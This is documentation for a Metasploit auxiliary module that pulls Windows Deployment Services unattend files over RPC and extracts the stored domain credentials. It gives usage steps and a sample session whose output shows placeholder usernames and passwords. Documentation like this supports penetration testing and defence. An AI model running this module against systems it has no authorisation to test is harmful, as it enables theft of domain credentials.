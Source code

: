 ## Vulnerable Application

This module retrieves the client unattend file from Windows Deployment Services RPC service and parses out the stored credentials. Tested against Windows 2008 R2 x64 and Windows 2003 x86.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/dcerpc/windows_deployment_services) and pull request [PR #1420](https://github.com/rapid7/metasploit-framework/pull/1420).

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/dcerpc/windows_deployment_services`
  3. set RHOST [ip]
  4. Do: `run`

## Scenarios

### A run on Windows Server 2008 R2 X64

  ```
  msf > use modules/auxiliary/scanner/dcerpc/windows_deployment_services
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > show options
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > set RHOST 192.168.5.1
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > run

    [*] Binding to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040] ...
    [+] Bound to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040]
    [*] Sending X64 Client Unattend request ...
    [*] Raw version of X64 saved as: C:/Documents and Settings/user/.msf5/loot/20121213104745_default_192.168.5.1_windows.unattend_399005.txt
    [+] Retrieved wds credentials for X64
    [*] Sending X86 Client Unattend request ...
    [*] Sending IA64 Client Unattend request ...

      Windows Deployment Services
      ===========================

      Architecture  Type  Domain        Username  Password
      ------------  ----  ------        --------  --------
      X64           wds   Fabrikam.com  username  my_password

    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

